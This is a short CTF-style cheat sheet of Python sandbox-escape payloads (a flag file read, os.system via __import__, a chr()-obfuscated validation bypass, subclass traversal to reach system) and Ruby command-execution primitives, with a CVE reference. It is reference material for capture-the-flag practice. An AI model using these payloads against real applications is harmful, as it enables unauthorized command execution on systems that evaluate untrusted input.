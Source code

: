## Python jailbreak

- Error based
```
int(open("flag.txt", "r").read())
```

- python2 input **rce**
```
__import__('os').system('cat valentine.txt')
```

- Escaping some validation
```
chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41)
```

- `<class 'os._wrap_close'> is 132`
```
print("".__class__.__mro__[1].__subclasses__())
"".__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['s' + 'ys' + 'tem']('ls -la')

```

## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
    - Non-Alphanumeric example: [HITCON CTF 2015 - Hard to say](https://github.com/w181496/CTF/tree/master/hitcon2015/hard-to-say)
        - `$$/$$` => 1
        - `'' << 97 << 98 << 99` => "abc"
        - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}`
- Net::FTP
    - CVE-2017-17405
    - use `Kernel#open`

